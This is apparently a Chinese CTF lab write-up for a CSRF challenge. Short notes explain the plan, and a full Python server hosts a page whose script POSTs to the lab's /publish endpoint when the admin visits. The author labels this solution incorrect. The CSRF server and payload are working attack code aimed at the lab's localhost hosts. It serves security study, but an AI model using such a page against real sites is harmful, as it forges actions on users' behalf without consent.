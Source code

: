 原理：

admin作为victim登录后，会主动去访问我们的1337端口。

于是我们的1337端口的程序就要做点手脚了。

server的代码里面什么也做不了。

没有办法插入xss让admin登录之后就自动点击publish

但是我们的1337程序就要自动跳转到publish

这样我们随便登录就能看到admin的flag了。



# 24-CSRF-2

正错解，为什么呢？

## 错解

这个是：

```python
hacker@web-security~csrf-2:~$ cat ./csrf2.py 
from http.server import SimpleHTTPRequestHandler, HTTPServer

class CSRFHandler(SimpleHTTPRequestHandler):
    def do_GET(self):
        if self.path == "/":
            self.send_response(200)
            self.send_header("Content-type", "text/html")
            self.end_headers()
            # 将字符串转换为字节对象
            self.wfile.write("""
                <html>
                  <body>
                    <h1>CSRF Attack in Progress</h1>
                    <script>
                        // 使用 POST 请求模拟攻击
                        fetch("http://challenge.localhost/publish", {
                            method: "POST", 
                            headers: {
                                "Content-Type": "application/x-www-form-urlencoded"
                            },
                            body: ""  // 如果需要，可以添加额外的数据
                        }).then(response => {
                            console.log("Request sent successfully!");
                        }).catch(error => {
                            console.log("Request failed", error);
                        });
                    </script>
                  </body>
                </html>
            """.encode())  # .encode() 将字符串转换为字节对象

server = HTTPServer(("0.0.0.0", 1337), CSRFHandler)
print("CSRF attack server running at http://hacker.localhost:1337/")
server.serve_forever()
```
